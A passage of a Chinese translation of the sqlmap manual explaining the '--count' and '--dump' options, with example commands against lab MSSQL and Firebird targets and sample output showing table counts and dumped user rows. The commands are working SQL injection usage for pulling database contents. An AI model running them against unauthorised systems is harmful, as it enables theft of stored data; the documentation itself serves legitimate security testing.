 ### 检索表的条目数

开关: `--count`

如果用户只想知道在转储所需的表之前的表中的条目数，他可以使用这个开关。

针对Microsoft SQL服务器目标的例子:

```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1"\
 --count -D testdb
[...]
Database: testdb
+----------------+---------+
| Table          | Entries |
+----------------+---------+
| dbo.users      | 4       |
| dbo.users_blob | 2       |
+----------------+---------+
```

### 把数据库表条目

开关和选项: `--dump`, `-C`, `-T`, `-D`, `--start`, `--stop`, `--first`, `--last`, `--pivot-column` 和 `--where`

当会话用户访问特定数据库的表时，可以转储表项。

这个功能依赖于选项`-T`来指定表名，或者选择`-D` 来指定数据库名称。如果提供了表名，但数据库名不是，则使用当前数据库名称。

针对Firebird目标的例子:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/firebird/get_int.php?id=1"\
 --dump -T users
[...]
Database: Firebird_masterdb
Table: USERS
[4 entries]
+----+--------+------------+
| ID | NAME   | SURNAME    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+
```

这个开关还可以用来转储提供的数据库的所有表的条目。你只需要提供sqlmap和开关`--dump`以及只有选项`-D`(不用`-T`和`-C`)。

您还可以提供与选项 `-C`转储的特定列的逗号分隔列表。

sqlmap也为每个表生成一个CSV格式文本文件中的条目。通过提供大于或等于**1**的赘言级别，可以看到sqlmap创建文件的绝对路径。

如果您只想转储一系列的条目，那么您可以提供选项 `--start`和/或`--stop`，分别从某个条目开始转储，并在某个条目中停止转储。例如，如果只想转储第一个条目，则在命令行中提供`--stop 1` 。反之亦然，例如，如果您想只转储第二个和第三个条目，则提供`--start 1` `--stop 3`。
